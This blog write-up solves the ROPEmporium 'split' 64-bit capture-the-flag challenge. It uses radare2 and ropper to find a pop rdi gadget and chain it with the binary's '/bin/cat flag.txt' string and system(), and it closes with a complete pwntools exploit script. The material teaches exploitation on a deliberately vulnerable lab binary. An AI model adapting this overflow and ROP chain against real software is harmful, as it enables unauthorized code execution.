






ROPEmporium: 1-Split (64-bit)
Doing a ROPEmporium Series, time to switch it up with Split!
Before you read any further go back and have a look on my previous ROPEmporium post, as this post will build on that knowledge. But also have some familiarity of
- GDB
- Radare2
- Assembly
This round we’ll use the same tools as in 0-ret2win, with the addition to Ropper as we have to find and use specific gadgets to make the 64-bit exploit.
Description
I’ll let you in on a secret; that useful string “/bin/cat flag.txt” is still present in this binary, as is a call to system(). It’s just a case of finding them and chaining them together to make the magic happen.
Setup
Again lets download and do some initial analysis of the binary
root@linux:~/split# wget https://ropemporium.com/binary/split.zip
root@linux:~/split# unzip split.zip
root@linux:~/split# ls
flag.txt split split.zip
root@linux:~/split# file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8cbc19d1114b70bce2305f7ded9e7dd4d2e28069, not stripped
Awesome, still not stripped and we downloaded the proper 64-bit ELF Executable. We can also execute it to look on the program execution flow and what input data it wants.
root@Valkyrie:~/Documents/courses/ropemporium/1-split# ./split
split by ROP Emporium
64bits
Contriving a reason to ask user for data...
> inputdata
Exiting
So the basic flow is similar to ret2win, no surprise there as this exercise is more looking at the assembly, but again the user is required to input data after the ”> “. Much like 0-Ret2Win the offset to our junk in order to control RIP is 40 bytes, and i am intentionally skipping the details in this step to focus more on the ROP Chain.
So again create the exploit template using pwntools
root@Valkyrie:~/Documents/courses/ropemporium/1-split# \
> pwn template --host 127.0.0.1 --port 31337 split --quiet > exploit.py
And again keeping with the standard, adding the 40-byte junk and payload definition
[...snip...]
# -- Exploit goes here --
junk = 'A'*40
payload = ""
payload += junk
io = start()
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
So lets start reversing the binary and look for the gadgets that we have to use.
Radare2 Reversing
Analyzing the binary first with rabin2, to have a look on its protections we can see that the nx: true also that stripped: false . So again a ROP Chain is the key to success!
root@Valkyrie:~/Documents/courses/ropemporium/1-split# rabin2 -I split
arch x86
baddr 0x400000
binsz 7137
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
So lets open the binary in Radare2 and look for our ROP Chain.

So in the challenge description we got the hint that there are still a useful function, but also a useful string which have been split apart! Investigating both the sym.usefulFunction and obj.usefulString we can slowly see the parts that we have to use in order to print the flag.txt.

Above is the function in 1-split that contains the gadget system, but it’s also apparent that it wont print us the flag by simply calling the function. Since the edi will be filled with the pointer to the string str.bin_ls (/bin/ls) and will thus only print out the files in the current directory. While this proves code execution or command injection… doesn’t help us getting that flag! What we really want is to call the obj.usefulString as an argument to system

That will certainly print us the flag. But the next question is…. how can we change the calling string to system if it is hard coded into the binary?
Anatomy of a ROP Chain
Now in order to dig a little into the calling convention of system calls in Linux we have to consult the ever exiting man page. Running man system in a terminal we are presented the manual for the library function system().

If we have a brief look into the description of the system call, we can identify that the calling convention is system(<string of what to be executed>) , so the first parameter is the command to run. Which follows the principle in sym.usefulFunction as the string before system is /bin/ls. Which in turn is placed in the edi register just before the call to system()
sym.usefulFunction ();
0x0040080b bfff084000 mov edi, str.bin_ls ;0x4008ff ; "/bin/ls" ; const char *string
0x00400810 e8cbfdffff call sym.imp.system ;int system(const char *string)
Now there’s a really good paper x64-Cheatsheet.pdf which explains a lot of the calls and methods in 64-bit assembly. A direct quote in the paper states that
4.3 Register Usage
Additionally, %rdi, %rsi, %rdx, %rcx, %r8, and %r9 are used to pass the first six integer or pointer parameters to called functions. Additional parameters (or large parameters such as structs passed by value) are passed on the stack.
Which means that it should look something like:
+-----------------------------------------------------------+
| Call First Second Third Fourth Fifth Sixth |
| System() %rdi %rsi %rdx %rcx %r8 %r9 |
+-----------------------------------------------------------+
Now we know that we need to move obj.usefulString into the first argument before calling system(), which should correlate to the %RDI Register, And there are three basic ways to achieve this and move data around in assembly:
- push - push register onto top of stack
- pop - pop top of stack onto register
- mov - move source to destination
But scrolling through the radare2 assembly can be a bit tedious, and there are a search function in radare2 to look for gadgets and specific calls, but its time to introduce ropper which will automagically find all the gadgets available to us in the binary or a glibc (though not necessary in the ROPEmporium challenges). So hunting for gadgets can be a bit tricky, as it usually requires to have a bunch of information and make assumptions as you go. luckily for us this time we only need one gadget this time, a pop rdi.
root@Valkyrie:~/Documents/courses/ropemporium/1-split# ropper -f split
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
Gadgets
=======
[...snip...]
0x00000000004006b0: pop rbp; ret;
0x0000000000400883: pop rdi; ret;
0x0000000000400881: pop rsi; pop r15; ret;
[...snip...]
91 gadgets found
Ropper identified that on address 0x00400883 theres a pop rdi; ret, which is easily verified in radare2 with pdi 2 @ 0x00400883

Constructing the ROP Chain
Now that we’ve identified the 3 parts we need in order to print the flag, its due time to start the assembly (No pun intended). This is something that we have to do in a specific order, which is more important in the later challenges but easier to understand now.
In order to call system with the string, we need to place the string into the RDI register before the system call. And since the pop rdi takes the next stack address and pops it into the register, the pop call needs to be right before the string address. so the chain have to look something like this
[junk] + [pop rdi] + [usefulString] + [system]
Which is easily constructed in our exploit code, now that we have all the parts needed.
Split
This time we’ll go straight to pwntools, but you can substitute the names for binary addresses if you want. So the different parts we need just to reiterate are
- Junk - which is
'A'*40in order to control RIP and execute our own addresses - usefulString -
exe.symbols.usefulStringthe address to/bin/cat flag.txt - System() -
exe.symbols.systemto create the system call - pop rdi -
0x00400883to put the next stack address onto the proper register
And in the final exploit we’ll use pwntools function p64(address) in order to convert a memory address into a packed string.
Final Exploit
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/10/ropemporium-1-split-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF('split')
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
def local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
def remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
gdb.attach(io, gdbscript=gdbscript)
return io
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
return local(argv, *a, **kw)
else:
return remote(argv, *a, **kw)
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())
# -- Exploit goes here --
junk = 'A'*40 #Controlling RIP Register
usefulString = p64(exe.symbols.usefulString) #/bin/cat flag.txt
system = p64(exe.symbols.system) #Creating the system call
pop_rdi = p64(0x00400883) #Putting the string onto RDI
payload = ""
payload += junk
payload += pop_rdi
payload += usefulString
payload += system
io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
